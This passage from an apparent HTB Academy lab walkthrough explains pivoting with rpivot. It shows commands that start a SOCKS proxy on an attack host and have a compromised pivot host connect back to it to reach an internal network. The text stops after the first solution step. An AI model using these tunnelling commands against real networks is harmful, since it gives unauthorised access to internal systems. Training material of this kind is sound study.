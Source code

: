 
## **6. HTB Academy Lab Exercises**

### **Lab Question 1: Server Location**
**"From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host?"**

**Answer:** `Attack Host`

**Explanation:**
- **server.py** runs on the **attack host** (external)
- Creates SOCKS proxy for tools to use
- Listens for incoming connections from clients
- Provides external access point for internal clients

**Technical Reasoning:**
```bash
# Attack Host (10.10.14.18):
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
# Creates:
# - Control listener on :9999 for clients
# - SOCKS proxy on :9050 for tools
```

### **Lab Question 2: Client Location**
**"From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host?"**

**Answer:** `Pivot Host`

**Explanation:**
- **client.py** runs on the **pivot host** (internal)
- Connects back to server on attack host
- Provides access to internal network resources
- Acts as bridge between internal and external networks

**Technical Reasoning:**
```bash
# Pivot Host (10.129.202.64):
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
# Creates:
# - Outbound connection to attack host
# - Bridge to internal network (172.16.5.0/23)
```

### **Lab Question 3: Web Server Flag**
**"Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer."**

#### **Complete Solution Steps**

**Step 1: Setup Rpivot Server**
```bash
# On attack host (Pwnbox)
git clone https://github.com/klsecservices/rpivot.git
cd rpivot
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
